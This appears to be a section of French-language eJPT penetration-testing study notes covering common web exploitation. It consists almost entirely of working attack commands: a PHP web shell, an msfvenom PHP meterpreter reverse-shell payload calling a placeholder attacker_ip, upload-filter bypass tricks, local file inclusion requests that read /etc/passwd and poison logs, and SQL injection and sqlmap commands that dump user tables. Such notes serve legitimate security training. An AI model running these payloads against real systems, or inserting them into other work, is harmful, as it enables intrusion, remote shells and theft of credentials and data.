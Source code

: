 
## 💥 7. Exploitation web commune eJPT

### Upload de shells web
```bash
# Créer shell PHP simple
echo '<?php system($_GET["cmd"]); ?>' > shell.php

# Shell PHP plus complexe
msfvenom -p php/meterpreter/reverse_tcp LHOST=attacker_ip LPORT=4444 -f raw > shell.php

# Upload via formulaire web
# Tester extensions: .php, .php3, .php4, .php5, .phtml, .pht

# Bypass filtres upload
# - Double extension: shell.php.jpg
# - Null byte: shell.php%00.jpg
# - MIME type: modifier Content-Type
```

### Local File Inclusion (LFI)
```bash
# Test LFI basique
curl "http://target/page.php?file=../../../etc/passwd"

# Avec null byte (PHP < 5.3)
curl "http://target/page.php?file=../../../etc/passwd%00"

# Log poisoning
curl "http://target/page.php?file=../../../var/log/apache2/access.log"

# Wrapper PHP
curl "http://target/page.php?file=php://filter/convert.base64-encode/resource=index.php"
```

### SQL Injection basique
```bash
# Test SQLi simple
curl "http://target/page.php?id=1'"
curl "http://target/page.php?id=1 OR 1=1"

# Union-based SQLi
curl "http://target/page.php?id=1 UNION SELECT 1,2,3,4"

# Avec sqlmap
sqlmap -u "http://target/page.php?id=1" --dbs
sqlmap -u "http://target/page.php?id=1" --tables -D database
sqlmap -u "http://target/page.php?id=1" --dump -T users -D database
```

---
